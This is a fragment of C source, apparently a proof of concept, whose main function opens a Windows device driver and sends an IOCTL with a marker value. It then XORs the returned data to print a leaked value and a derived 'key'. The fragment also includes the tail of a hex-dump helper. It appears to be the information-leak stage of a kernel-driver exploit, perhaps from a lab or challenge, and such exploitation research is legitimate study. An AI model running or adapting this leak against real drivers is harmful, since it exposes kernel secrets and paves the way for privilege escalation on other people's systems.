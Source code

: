 ```c
            }
        }

        printf(" |");
        for (j = 0; j < 16; ++j) {
            if (i + j < size) {
                unsigned char c = byteData[i + j];
                if (c >= 32 && c <= 126) {
                    printf("%c", c);
                } else {
                    printf(".");
                }
            }
        }
        printf("|\n");
    }
}

int main()
{
    HANDLE hDevice = CreateFileW(DeviceName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);

    if (hDevice == INVALID_HANDLE_VALUE) {
        printf("[X] Failed to open device. Error: %ld\n", GetLastError());
        return 1;
    }

    printf("[!] Success open device");

    uintptr_t inputbuf = 0x8181818181818181;
    size_t KEY = 0x0;
    char outputbuf[0x8] = { 0 };
    
    DWORD bytesReturned = 0;

    BOOL result = DeviceIoControl(
        hDevice,
        DeVioctlCode,
        &inputbuf,
        0x8,
        outputbuf,
        0x8,
        &bytesReturned,
        NULL
    );

    if (result) {
        printf("[*] IOCTL command sent successfully\n");
        printf("[!] LeakData: 0x%llx\n",inputbuf);
        KEY = 0x8181818181818181 ^ inputbuf;
        printf("[!] LeakKey: 0x%llx\n",KEY);

    } else {
        printf("Failed to send IOCTL command. Error: %ld\n", GetLastError());
    }

    return 0;
}
```
